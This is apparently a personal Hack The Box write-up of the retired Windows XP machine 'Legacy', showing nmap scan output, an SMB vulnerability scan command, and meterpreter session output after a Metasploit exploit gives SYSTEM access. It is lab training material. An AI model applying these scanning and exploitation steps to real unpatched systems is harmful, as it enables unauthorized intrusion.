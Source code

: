 ```yaml
---
layout: post
title: Legacy
date: 2020-03-30
author: the-bilal-rizwan
comments: true
categories: htb
tags: [windows,htb]
---
```


## Legacy writeup

Hi there, how you doin ?
For a long long time now I've been avoiding Hack the box cause I am sort of an addict for CTFs and I've heard that htb is one of the best playgrounds out there. I was just waiting for a time period where I could just sit down and do this without any distractions and what better time then this COVID-19 pendemic when everyone is quarantined (Hope Everyone survives this and be well)
Thought I'd start with retired easy machines which would get me warmed up so here we are Legacy writeup.


![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/cover.png)


Let's do a quick nmap all ports

```bash
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h32m49s, deviation: 2h07m16s, median: 4d23h02m49s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:4f:ab (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 4f ab 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13996/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 38560/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-04-04T08:00:18+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

```

<br>

### Enumeration

- I ran another nmap scan `nmap -p 139,445 --script smb-vuln* 10.10.10.4` It gave me the following result sayign the SMBv1 is vulnerable to remote code execution

![smb-nmap-output]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/smb.png)


### Exploitation

Quick google search and I found out that msf can be used to gain a shell. Used the following exploit and got an initial shell. 
After I ran getuid found out I had been dropped on to the NT Authority shell.



![shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Legacy/shell.png)



```bash
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:19 -0400  root.txt

```
That's all pretty simple